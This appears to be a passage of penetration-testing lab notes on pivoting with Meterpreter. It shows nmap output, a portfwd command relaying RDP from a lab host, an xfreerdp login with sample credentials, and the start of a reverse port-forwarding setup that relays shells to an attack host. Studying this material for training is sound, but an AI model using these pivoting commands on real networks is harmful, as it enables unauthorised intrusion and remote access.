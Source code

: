 ```
Nmap scan report for 172.16.5.19 
Host is up (0.12s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

## Port Forwarding

Port forwarding can also be accomplished using Meterpreter's portfwd module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

```
meterpreter > help portfwd

meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

### Connecting to Windows Target through localhost
```
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
### Netstat Output
```
netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

## Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform reverse port forwarding with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port 1234 to our listener on port 8081.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081. We will also configure our listener to listen on port 8081 for a Windows shell.
